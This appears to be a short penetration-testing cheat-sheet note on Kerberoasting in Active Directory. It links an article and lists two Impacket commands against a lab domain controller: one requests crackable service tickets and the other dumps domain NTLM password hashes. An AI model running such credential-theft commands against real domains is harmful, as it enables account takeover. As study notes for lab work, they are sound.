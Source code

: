 ```yaml
---
tags:
  - Exploitation
  - OperatingSystems
  - Windows
  - ActiveDirectory
---
```

https://www.blackhillsinfosec.com/a-toast-to-kerberoast/

`GetUserSPNs.py -request -dc-ip 192.168.2.160 lab.local/zuul`

`secretsdump.py -just-dc-ntlm LAB/sqladmin@192.168.2.160`